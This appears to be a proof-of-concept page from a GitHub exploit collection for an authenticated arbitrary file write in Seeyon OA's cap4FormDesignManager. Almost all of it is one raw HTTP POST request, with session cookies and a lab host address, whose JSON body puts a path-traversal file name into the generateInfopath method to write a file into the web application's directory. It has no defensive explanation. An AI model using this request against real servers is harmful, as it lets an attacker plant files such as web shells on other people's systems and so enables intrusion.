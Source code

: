 # seeyon_cap4FormDesignManager_fileupload

```
POST /seeyon/ajax.do?method=ajaxAction&managerName=cap4FormDesignManager HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Length: 331
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Cookie: ts=1728653264995; JSESSIONID=EADD9E1D7E239870F85E73935AC9AD34; loginPageURL=; login_locale=zh_CN; avatarImageUrl=5995465946958220283
Host: 192.168.18.129:8085
RequestType: AJAX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0

managerMethod=generateInfopath&arguments={"files":[{"fileName":"../../../../../../ApacheJetspeed/webapps/seeyon/11.txt","fileContent":"1111"}]}
```
from: https://github.com/wy876/POC/blob/main/%E8%87%B4%E8%BF%9COA/%E8%87%B4%E8%BF%9COA%E5%90%8E%E5%8F%B0%E8%A1%A8%E5%8D%95%E5%AF%BC%E5%85%A5%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E.md
